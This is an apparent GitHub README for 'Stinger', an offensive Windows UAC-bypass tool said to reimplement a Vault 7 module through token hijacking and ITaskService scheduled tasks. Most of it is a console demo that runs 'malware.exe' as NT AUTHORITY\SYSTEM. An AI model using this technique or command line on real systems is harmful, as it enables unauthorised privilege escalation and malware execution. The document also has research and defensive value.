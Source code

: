 ﻿# Stinger

CIA Vault7 leak describes Stinger[0] as a Privilege Escalation module in the "Fine Dining" toolset. Stinger
is a "UAC bypass that obtains the token from an auto-elevated process, modifies it, and reuses it to 
execute as administrator". This is an implementation of Stinger, including debugging routines and additional 
tradecraft for `NT AUTHORITY\SYSTEM` rights. The exploit works on Windows 7 through Windows 10 to run privileged 
code through token hijacking of an autoelevated process (e.g. `Taskmgr.exe`) from a UAC restricted process. This 
technique to steal a privileged token and elevate a thread also works on Windows 11, however it is not possible 
to use it for CreateProcessWithLogonW which detects `BAD IMPERSONATION` or with CreateFile, Registry, Process, 
COM ITask*, Named Pipes etc as the operations fail with `ACESS_DENIED` or `E_BAD_IMPERSONATION`. This exploit 
closely resembles UAC Magic[1] and thus it is believed that Stinger is an implementation of UAC Magic based on 
the description and time which it was used within the CIA for modular malware in "Fine Dining". This is a 
tokenhijacking attack that bypasses UAC on Windows 7 -> Windows 10, and on Windows 11 gives only an elevated 
thread to further experiment with. This exploit leverages a COM object ITaskService from the privileged thread 
to run commands under `NT AUTHORITY\SYSTEM`. 

Here is an example of the UAC bypass being used on a vulnerable Windows 7 host. 

``` 
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TestUser\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\TestUser\Downloads>Stinger.exe taskmgr.exe cmd.exe /c c:\\Temp\\malware.exe
Show our process security context...
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: TESTPC\TestUser
SID: S-1-5-21-3089230831-4110903467-601958294-1001
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is not elevated.
Token is not restricted
Dumping token privileges...
[-] Disabled Privilege: SeShutdownPrivilege Attributes : 0
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[-] Disabled Privilege: SeUndockPrivilege Attributes : 0
[-] Disabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 0
[-] Disabled Privilege: SeTimeZonePrivilege Attributes : 0
Process ID: 3992
Successfully duplicated token
H4x0r1nG the token ...
Enabling privilege: SeIncreaseQuotaPrivilege
Enabling privilege: SeSecurityPrivilege
Enabling privilege: SeTakeOwnershipPrivilege
Enabling privilege: SeLoadDriverPrivilege
Enabling privilege: SeSystemProfilePrivilege
Enabling privilege: SeSystemtimePrivilege
Enabling privilege: SeProfileSingleProcessPrivilege
Enabling privilege: SeIncreaseBasePriorityPrivilege
Enabling privilege: SeCreatePagefilePrivilege
Enabling privilege: SeBackupPrivilege
Enabling privilege: SeRestorePrivilege
Enabling privilege: SeShutdownPrivilege
Enabling privilege: SeDebugPrivilege
Enabling privilege: SeSystemEnvironmentPrivilege
Enabling privilege: SeChangeNotifyPrivilege
Enabling privilege: SeRemoteShutdownPrivilege
Enabling privilege: SeUndockPrivilege
Enabling privilege: SeManageVolumePrivilege
Enabling privilege: SeImpersonatePrivilege
Enabling privilege: SeCreateGlobalPrivilege
Enabling privilege: SeIncreaseWorkingSetPrivilege
Enabling privilege: SeTimeZonePrivilege
Enabling privilege: SeCreateSymbolicLinkPrivilege
Dropping IL...
Initialized medium IL SID
Token lowered to medium integrity
COM init...
Attemping to bypass UAC with the token...
ImpersonateLoggedOnUser succeeded.. 
Dumping our new security context..
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: BUILTIN\Administrators
SID: S-1-5-32-544
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is elevated!
Token is not restricted
Dumping token privileges...
[+] Enabled Privilege: SeIncreaseQuotaPrivilege Attributes : 2
[+] Enabled Privilege: SeSecurityPrivilege Attributes : 2
[-] Disabled Privilege: SeTakeOwnershipPrivilege Attributes : 0
[-] Disabled Privilege: SeLoadDriverPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemProfilePrivilege Attributes : 2
[+] Enabled Privilege: SeSystemtimePrivilege Attributes : 2
[+] Enabled Privilege: SeProfileSingleProcessPrivilege Attributes : 2
[+] Enabled Privilege: SeIncreaseBasePriorityPrivilege Attributes : 2
[+] Enabled Privilege: SeCreatePagefilePrivilege Attributes : 2
[-] Disabled Privilege: SeBackupPrivilege Attributes : 0
[-] Disabled Privilege: SeRestorePrivilege Attributes : 0
[+] Enabled Privilege: SeShutdownPrivilege Attributes : 2
[-] Disabled Privilege: SeDebugPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemEnvironmentPrivilege Attributes : 2
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeRemoteShutdownPrivilege Attributes : 2
[+] Enabled Privilege: SeUndockPrivilege Attributes : 2
[+] Enabled Privilege: SeManageVolumePrivilege Attributes : 2
[-] Disabled Privilege: SeImpersonatePrivilege Attributes : 0
[+] Enabled Privilege: SeCreateGlobalPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 2
[+] Enabled Privilege: SeTimeZonePrivilege Attributes : 2
[+] Enabled Privilege: SeCreateSymbolicLinkPrivilege Attributes : 2
Attemping to run command as NT AUTHORITY\SYSTEM via COM...
Created ITaskService..
Connected to ITaskService..
Registering the evil Task..
Task created successfully.
Executed command as NT AUTHORITY\SYSTEM... wait for cleanup
Task deleted successfully. 
```

Your commands have executed under `NT AUTHORITY\SYSTEM`. Happy New Year!

## References

* [0]: [Fine Dining Tool Module List, Vault 7, Wikileaks](https://wikileaks.org/ciav7p1/cms/page_20251107.html).
* [1]: [Reading your way around UAC, James Forshaw](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html).

## License

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.
